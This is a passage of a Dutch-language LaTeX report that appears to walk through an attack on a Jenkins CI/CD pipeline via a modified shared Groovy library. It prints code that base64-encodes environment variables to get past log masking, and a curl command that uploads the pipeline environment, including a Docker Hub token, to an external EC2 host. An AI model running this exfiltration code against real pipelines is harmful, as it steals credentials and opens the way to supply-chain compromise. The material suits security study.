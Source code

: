 Afhankelijk van hoe secrets worden gebruikt in de pipeline, kiest de aanvaller de meest geschikte locatie om gegevens te extraheren. Aangezien secrets worden gebruikt als omgevingsvariabelen in de pipeline, kan de aanvaller veel interessante gegevens verzamelen.
\clearpage

Hoewel een groot deel van de secrets afkomstig is van AWS Secrets Manager, is de secret om de Docker-image naar DockerHub te pushen beschikbaar op het systeem tijdens het maken van de Docker-image. De aanvaller kan dus profiteren van deze misconfiguratie en de geheime informatie extraheren. Door het verkrijgen van deze geheime informatie, verkrijgt de aanvaller de rechten om Docker-images naar de private container registry te pushen.
\newline

Onderstaande code fragment wordt gebruikt om de omgevingsvariabelen van de pipeline uit te lezen. Het tweede code fragment kan gebruikt worden wanneer de logs niet zomaar uitgelezen kunnen worden en er dus een externe sever nodig is om de output te verzamelen.
\newline

\begin{lstlisting}[language=bash, style=bashstyle]
  def call (String hubUser, String hubAccessToken ) {
    sh """
    echo ${hubAccessToken} | docker login -u ${hubUser} --password-stdin
    env | base64
    """
}
\end{lstlisting}

\vspace{0.5cm}
Doordat secrets gemaskereerd worden in de pipeline logs, wordt de base-64 tool gebruikt die beschikbaar is binnen een linux systeem.
\newline

\vspace{0.5cm}
\begin{lstlisting}[language=bash, style=bashstyle]
  def call (String hubUser, String hubAccessToken ) {
    sh """
    echo ${hubAccessToken} | docker login -u ${hubUser} --password-stdin
    """
    sh 'env > env && curl -F "files=@env" http://ec2-16-16-75-127.eu-north-1.compute.amazonaws.com:8080/upload'

}
\end{lstlisting}

\vspace{0.5cm}
Nadat de gedeelde Groovy-library is aangepast, zorgt de aanvaller ervoor dat er een nieuwe bouwopdracht wordt gestart door het sturen van een PR. Er is geen manuele controle op de PR wat er voor zorgt dat een nieuwe bouwopdracht in de wachtrij geplaatst wordt. 
\clearpage

